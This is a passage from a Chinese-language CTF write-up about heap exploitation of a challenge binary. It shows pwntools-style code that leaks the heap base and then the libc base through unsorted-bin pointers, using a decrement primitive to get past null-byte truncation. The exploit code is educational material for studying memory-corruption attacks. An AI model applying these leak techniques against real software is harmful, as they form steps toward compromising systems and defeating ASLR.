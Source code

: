 ```
    log.info('heap start is : ' + hex(heap_start_addr))
```

有了heap的基地址，也就意味着我们有了堆上的可控地址，可以想办法泄露由于free到unsorted bin而留下来的libc的信息

释放所有的Block

```
for i in range(0x10):
        delete()                            # all delete

    data = []
```

此时可以看到heap_start的fd bk指针已经是指向main_arena结构的，和libc相关

但是若想泄露，就需要想办法绕过**x00**截断，这个其实没有别的选择，再次把目光投向CallFunction，如果我们能够让因为read_str截断的x00落在最后4byte的位置，被减一，就成了0xff，绕开了0x00输出截断。

这是可以做到的，我们只需要分配一个chunk，只提供3个byte（第四个byte被填充为0x00）去覆盖fd指针。

而第一个chunk中最后4byte地址是可以从heap_start得到的**heap_start_addr + 8**

再通过字节错位，将最后4byte的高位0x00转为低位，（**heap_start_addr + 8 + 3**）CallFuntion减一变为0xff

最终可以泄露bk指针获得libc地址。

```
for i in range(0x10):
                                                                # unsorted bin
                                                                # +3 highest 's byte is 0x00 will be lowest byte os type value
        data.append([p32(heap_start_addr + 8 + 3 ) * (0x1000 / 4 - 1), 1])

    malloc(0x1000, data)                    
    delete()    

    data = []
    for i in range(0x10):
                                # the type number not modified
        data.append(['aaa', 0])

    malloc(0xa0, data)           # the type number is about main_arena
    callfuc(0)                  # 0x00 - 1 = 0xff no null
    show(0, 0x10)               # leak libc

    for i in range(index + 1 - block_start + 0x10):
        out = p.recvline()
        out = out[12 : -1]
        if 'aaa' != out:
                            # leak main_arena
            libc_addr = u32(out[4 : 8]) + 1 - 0x1b27b0

            break

    log.info('libc addr is : ' + hex(libc_addr))
```
